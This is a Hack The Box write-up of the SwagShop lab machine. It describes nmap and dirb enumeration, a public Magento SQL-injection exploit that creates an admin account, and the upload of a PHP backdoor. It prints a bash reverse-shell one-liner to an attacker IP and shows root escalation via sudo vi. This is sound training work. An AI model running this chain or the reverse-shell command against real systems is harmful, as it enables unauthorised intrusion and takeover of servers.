 ```yaml
---
layout: post
title: "HackTheBox: SwagShop write-up"
date: 2019-06-12
excerpt: "Really cool box that chains together two different exploits for the Magento CMS followed by a really simple yet amusing way of privilege escalation with vi! "
tags: [Hack The Box, Pentesting, Magento, Python, Searchsploit, Vi]
comments: true
feature: https://s23440.pcdn.co/wp-content/uploads/2017/07/magento-logo-600x400.png
---
```


# Hack The Box: SwagShop machine write-up

This machine, that runs with ip ``10.10.10.140``, was a really good and entertaining way of learning about Magento CMS and how different exploits can be chained together in order to achieve RCE. The first one is based on a SQL injection which lets us add a user to the Magento db, which then grants us access to the admin panel. From there, we can upload a backdoor that can be escalated to root thanks to a misconfiguration on the server that lets us run ``sudo`` with ``vi`` as user ``www-data``.

The only downside of it was that most people were making it crash all the time, which made it really hard for me to be able to experiment without constant resets... Overall I'd say this was one of the most unstable boxes I've done.

Let's begin!

### Enumeration

As always, we start by enumerating open ports to discover the services running in the machine. I fire up nmap:

*Result of nmap scan*

```sh
# Nmap 7.70 scan initiated Tue Jun 11 10:41:39 2019 as: nmap -sV -sC -oA nmap/initial 10.10.10.140
Nmap scan report for 10.10.10.140
Host is up (0.025s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Error 503: Service Unavailable
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jun 11 10:41:53 2019 -- 1 IP address (1 host up) scanned in 14.33 seconds
```

We don't have much, just SSH and a web server, so we'll start by checking out port 80.

#### Web server enumeration

At first we are greeted with what looks like a store. Upon this, I immediately run dirb on the background so that it runs while I tinker around with the website.

*Website found on port 80*

![Img](/assets/posts_details/SwagShop/images/website.png)

I didn't found much manually, so I came back to check the dirb results and bingo! It found something:

```
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Jun 12 17:18:17 2019
URL_BASE: http://10.10.10.140/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.140/ ----
==> DIRECTORY: http://10.10.10.140/app/                                         
==> DIRECTORY: http://10.10.10.140/downloader/                                  
==> DIRECTORY: http://10.10.10.140/errors/                                      
+ http://10.10.10.140/favicon.ico (CODE:200|SIZE:1150)                          
==> DIRECTORY: http://10.10.10.140/includes/                                    
+ http://10.10.10.140/index.php (CODE:200|SIZE:16097)                           
==> DIRECTORY: http://10.10.10.140/js/                                          
==> DIRECTORY: http://10.10.10.140/lib/                                         
==> DIRECTORY: http://10.10.10.140/media/                                       
==> DIRECTORY: http://10.10.10.140/pkginfo/                                     
+ http://10.10.10.140/server-status (CODE:403|SIZE:300)                         
==> DIRECTORY: http://10.10.10.140/shell/                                       
==> DIRECTORY: http://10.10.10.140/skin/                                        
==> DIRECTORY: http://10.10.10.140/var/
```

Accessing ``/downloader`` we can observe that the website is using Magento, a CMS that was subject to some attacks in the past.

*Control panel for Magento (``/downloader``)*

![Img](/assets/posts_details/SwagShop/images/downloader.png)

#### Gaining user with Magento

We don't have any credentials to log in to the control panel, so I went straight into searchsploit to see if there were any exploits available.

*Results from searchsploit search*

![Img](/assets/posts_details/SwagShop/images/searchsploit.png)

I started to try all of them until one finally worked: Magento eCommerce - Remote Code Execution. I copied the python script to my working directory with: ``searchsploit -m exploits/xml/webapps/37977.py```. And had a look at it. It looked like a SQL injection, so I ran it after modifying the following lines:

```py
target = "http://10.10.10.140/index.php"
```

Then I modified the credentials I wanted to have to be ``root2u:root2u`` and ran it:

*Output of exploit script*

![Img](/assets/posts_details/SwagShop/images/exp1.png)

The I just log in to the panel with those creds and have the possibility to upload some kind of package:

*``/downloader`` control panel*

![Img](/assets/posts_details/SwagShop/images/control.png)

I googled around and found this [website](https://dustri.org/b/writing-a-simple-extensionbackdoor-for-magento.html) where it's explained how it's possible to create a package with a simple php file. I followed it and used this [shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) from pentestmonkey. However, it didn't work and the php file was recognised as a directory when I tried to access it.

*Uploading module as a ``.tar.gz`` file doesn't work*

![Img](/assets/posts_details/SwagShop/images/failed.png)

Eventually I bumped into an article on the internet where they were using another extension: ``.tgz``. I tried and it worked!

Running a ``curl`` on ``http://10.10.10.140/errors2/backdoor.php`` grants me a shell and we can read the user flag:

*Shell gained from php backdoor*

![Img](/assets/posts_details/SwagShop/images/shell1.png)

![Img](/assets/posts_details/SwagShop/images/shell2.png)

### Getting to root

Once on this shell I noticed that I needed an actual proper shell and sho I opened up another listener with netcat and ran: ``bash -c 'bash -i >& /dev/tcp/10.10.12.11/8080 0>&1'``.

After that, I ran ``sudo -l`` to see if I could run any commands as root and it turned out that I did:

*Improving the shell*

![Img](/assets/posts_details/SwagShop/images/shell3.png)

I can run the file editor ``vi`` as root under the directory ``/var/www/html/*`` so I created a new file and used a command propmt command to read the root flag (commands can be executed from within vi):

*Getting the root hash*

![Img](/assets/posts_details/SwagShop/images/shell4.png)

![Img](/assets/posts_details/SwagShop/images/shell5.png)

And that's it! I could've also ran ``:!/bin/bash`` to get a root shell and read the flag from there, but I just did this as it was more straightforward.

I hope you learned something with this cool box and enjoyed the write-up!

---

*Diego Bernal Adelantado*
